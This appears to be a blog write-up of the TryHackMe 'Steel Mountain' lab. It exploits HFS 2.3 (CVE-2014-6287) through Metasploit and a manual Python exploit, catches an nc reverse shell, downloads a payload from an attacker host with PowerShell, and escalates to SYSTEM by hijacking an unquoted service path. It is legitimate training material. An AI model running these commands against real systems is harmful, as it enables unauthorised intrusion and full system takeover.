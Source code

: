 ```yaml
---
title: THM - Steel Mountain
date: 2022-07-23 22:09:00 +0200
categories: [Writeups]
tags: [tryhackme, tutorial]     # TAG names should always be lowercase
---
```



## Introduction
Steel Mountain refers to the data security firm where the protagonist Eliot broke into in the TV show Mr. Robot.
Opening a browser to this machine shows a simple html website showing a picture of the employee of the month.
Looking at the source code of the web page we get the answer to the first question: `<img src="/img/BillHarper.png" style="width:200px;height:200px;"/>`


## Initial access
Running nmap TCP SYN scan shows that are a few more ports open:
```shell
$ sudo nmap -sS -T4 -Pn -p1-10000 <TARGET_IP>`
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-24 14:46 EDT
Nmap scan report for <TARGET_IP>
Host is up (0.025s latency).
Not shown: 9993 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
8080/tcp open  http-proxy
```
Checking the other website running on TCP port 8080 reveals what seems to be a web app to browse system files.
The bottom left corner contains server information including a hyperlink [HTTP File Server 2.3](http://www.rejetto.com/hfs/) towards the open source project of the web app.

Searching Exploit-DB shows that HFS version 2.3 is vulnerable (CVE-2014-6287) to RCE.
The Metasploit Framework has the exploit included as well in `exploit/windows/http/rejetto_hfs_exec`.
Changing the module options (rhosts, rport, lhost, srvhost) results in a Meterpreter reverse TCP shell.

> Note that it took a few minutes after running the exploit until the Meterpreter Shell Prompt was ready.
{: .prompt-tip }

With the Meterpreter shell running we can start exploring. It seems the server is running Windows 2012 R2 and logged in with the Employee of the Month user as can be seen below.

```
meterpreter > sysinfo
Computer        : STEELMOUNTAIN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: STEELMOUNTAIN\bill
meterpreter > pwd
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
The first flag can be found on Bills' desktop `C:\Users\bill\Desktop>\user.txt`{: .filepath}


## Privilege escalation
Meterpreter has automated privilege escalation options such as using the builtin getsystem command.
However, this challenge explores different options by using the PowerUp.ps1 script provided by PowerShellMafia to find privilege escalation vectors.
After uploading the script to the victim machine it seems one service can be restarted by Bill and has an unquoted service file path as can be seen below:

```
ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
```
The unquoted file path signifies the command is ambiguous, meaning its open to interpretation. The spaces are normally used to separate command arguments unless they are quoted.
The table below shows the order in which the command line will interpret it. Since the Iobit folder is writable by user Bill, we can create our own reverse shell payload and name it `Advanced.exe`.


| Command		| Argument 1 		| Argument 2		    | Argument 3	 	|
|:----------------------|:---------------------:|:-------------------------:|--------------------------:|
| C:\Program.exe	| Files  		| (x86)\Iobit\Advanced      | SystemCare\ASCService.exe
| C:\Program Files.exe  | (x86)\Iobit\Advanced  | SystemCare\ASCService.exe |				|
| C:\Program Files (x86)\Iobit\Advanced.exe | SystemCare\ASCService.exe |	|

Once the payload is written to `C:\Program Files (x86)\Iobit`{: .filepath}, we can start a listener on the attack machine and restart the service:
```console?lang=batchfile
C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
```
We are now logged in as NT Authority/SYSTEM which is allowed to grab the root flag located at: `C:\Users\Administrator\Desktop\root.txt`{: .filepath}

## Access and Escalation without Metasploit
Although Metasploit is incredibly usefull, it is not a good practice to only rely on a single tool. Furthermore, Meterpreter is easily detected by modern AVs \[citation needed\].
The last task explores a more manual approach to hack the target machine. Once the provided exploit is downloaded we need to prepare it by adjusted the variables`ip_addr`, `local_port` with our own values of the attack machine.
As described in the comment section, we need to host a webserver while running the exploit to retrieve the nc.exe binary. 

Terminal window 1:
```shell
──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ mv 39161 exploit.py
┌──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ chmod +x Exploit.py  
┌──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ python2 ./Exploit.py <TARGET_IP> 8080     
```

Terminal window 2:
```shell
┌──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ python3 -m http.server 80                                                                                                                                                                            1 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
<TARGET_IP> - - [24/Jul/2022 15:09:16] "GET /nc.exe HTTP/1.1" 200 -
┌──(kali㉿kali)-[~/TryHackMe/offensive-pentesting/steelmountain]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to <ATTACK_IP> from (UNKNOWN) <TARGET_IP>  49305
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

With the shell working we can download and run the WinPeas binary using PowerShell:
`powershell -c Invoke-WebRequest -Uri https://github.com/carlospolop/PEASS-ng/releases/download/20220724/winPEASx86.exe -Outfile "privesc.exe"`

With the same web server running on the attack machine we can download the same reverse shell payload:
`powershell -c Invoke-WebRequest -Uri http://<ATTACKER_IP>/Advanced.exe -Outfile "Advanced.exe"`

And repeat the same procedures from the last paragraph to obtain a high privileged shell!
